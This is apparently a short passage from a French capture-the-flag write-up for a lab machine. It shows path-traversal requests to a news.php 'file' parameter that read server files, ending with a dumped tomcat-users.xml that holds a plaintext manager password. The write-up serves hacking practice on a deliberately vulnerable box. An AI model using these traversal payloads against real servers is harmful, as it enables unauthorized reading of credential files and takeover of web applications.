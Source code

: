 http://megahosting.htb/news.php?file=../../../../var/www/html/index.php retourne la page d'accueil d'apache

http://megahosting.htb/news.php?file=../../../../var/lib/tomcat9/webapps/ROOT/index.html 

view-source:http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml

~~~
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
~~~
